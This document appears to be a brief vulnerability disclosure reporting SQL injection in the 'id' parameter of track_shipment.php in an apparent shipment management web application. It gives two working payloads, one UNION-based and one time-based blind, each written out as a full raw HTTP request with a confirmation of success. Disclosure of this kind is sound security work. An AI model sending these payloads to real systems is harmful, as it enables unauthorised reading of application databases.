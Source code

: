 BUG_Author: XiaoJieSec

Vulnerability File: /acms/admin/transactions/track_shipment.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,CONCAT(0x23242526,0x73747576),null-- -

```
GET /acms/admin/transactions/track_shipment.php?id=-1%27%20union%20all%20select%20null,null,null,CONCAT(0x23242526,0x73747576),null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close
```

union query success

![image](https://github.com/Hackergrave/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))a) and 'd'='d

```
GET /acms/admin/transactions/track_shipment.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))a)%20and%20%27d%27=%27d HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=ajjmkcq73hjl8r1bb7b4smsaob
Connection: close
```

The response time of the server is greater than 10 seconds

![image](https://github.com/Hackergrave/bug_report/blob/main/sql2.png)
